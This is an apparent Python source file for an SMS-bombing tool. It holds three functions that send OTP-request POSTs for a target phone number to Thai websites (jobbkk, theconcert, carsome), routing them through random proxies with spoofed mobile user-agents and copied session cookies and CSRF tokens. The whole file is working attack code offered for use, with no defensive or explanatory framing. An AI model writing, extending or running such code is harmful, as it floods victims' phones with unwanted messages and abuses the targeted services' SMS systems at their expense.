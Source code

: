 def api1(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	send = Session()
	send.headers.update({"user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Mobile Safari/537.36",'content-type': 'application/x-www-form-urlencoded; charset=UTF-8'})
	sms = send.post("https://api.jobbkk.com/v1/easy/otp_code",data="mobile="+phone,proxies={'http': 'http://' + random.choice(s)})
	if sms.status_code == 200 or sms.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {sms.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {sms.status_code}")
	
def api2(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://www.theconcert.com/rest/request-otp",headers={"x-xsrf-token": "33ed88f53546803c779ff8c10e7386057YuSCY/kUuCibrt0phirk+ftZp83UlwChfA5qjn8OJy268fFbtZDDu5U3Wc+UMKSLdUFEtf7U4rRzuy2rvmK+LFcY5y5N6eextOHy53Eg9zuedQdkV0DSRIKKo4q0CBA","x-csrf-token": "ai49Zub4-IsdrbJwOTXdL5bZy1RU2QvpHSPc","cookie": "_gcl_au=1.1.1502258808.1656237331;_fbp=fb.1.1656237331957.603057766;__gads=ID=eb23ce56d1c7de3e-22e38929c0d40031:T=1656237332:RT=1656237332:S=ALNI_MZC9-jiB6phkTi6InD_2HFqsf7dTA;lang=th;pagesInSession=1;__gpi=UID=00000633fd49bde3:T=1656237332:RT=1656415272:S=ALNI_MZJBTJ3y6ilUC3xgp70URp3GC1PEg;_ga_N9T2LF0PJ1=GS1.1.1656415272.2.0.1656415272.0;_ga=GA1.2.543101815.1656237332;_gid=GA1.2.846940337.1656415273;_gat_UA-133219660-2=1;popup_1436=true;adonis-session=95ad0fa91d1d2f313006a0e2b0ef4a55VMCjUjHXUP5Z7dIt9yj0ikjCYKp6h2Y%2B0opJ%2FIEkK1igD11Zq3PhMqfGOSfG3%2F5R5C%2FLCKcoaEYy14g4HXhfjwGl5eOP1MZpX99v3PE75RD8GTZOTSvxcNvhvTTGYHI7;XSRF-TOKEN=33ed88f53546803c779ff8c10e7386057YuSCY%2FkUuCibrt0phirk%2BftZp83UlwChfA5qjn8OJy268fFbtZDDu5U3Wc%2BUMKSLdUFEtf7U4rRzuy2rvmK%2BLFcY5y5N6eextOHy53Eg9zuedQdkV0DSRIKKo4q0CBA","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","content-type": "application/json;charset=UTF-8"},json={"mobile":phone,"country_code":"TH","lang":"th","channel":"sms","digit":4},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api3(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://www.carsome.co.th/website/login/sendSMS",headers={"user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","cookie": "amp_893e6b=w-newQWGaJ9H7YmD5KD1Jg...1g6l3e5ht.1g6l3e5ht.0.0.0;cky-active-check=yes;ajs_anonymous_id=bc6fbe42-9d69-40d9-93db-ba6b777861c1;_gcl_au=1.1.1543614339.1656418159;_ALGOLIA=anonymous-0a2bcc78-8c2b-4051-bfea-97cb347b1e17;__lt__cid=f282ddb1-0630-4c9e-ab88-27f6bd651a35;__lt__sid=530143c9-c9d21696;cookieyesID=R1V5aHU4eWswY21YbjM0NHFGb1FVc1pObDc3U2NSYkk=;moe_uuid=ff0db811-2642-4a84-83a3-7dd26d9c33a1;__cf_bm=4SQWD6XX3mlhMhXrkJ8A1.4MzqJ80OVt9BMJ9NH5uFw-1656418177-0-AdYubBhGil+XHg2/1J8WHy36qRL2urjlZUNUYGwGOkQyg0wlFLvwXAv8ugmj2IdM5ZaTfFxlz/2lRwsTuRRxnrQ=;cky-consent=no;cookieyes-necessary=yes;cookieyes-functional=no;cookieyes-analytics=no;cookieyes-performance=no;cookieyes-advertisement=no;cookieyes-other=no"},json={"username":phone,"optType":0},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	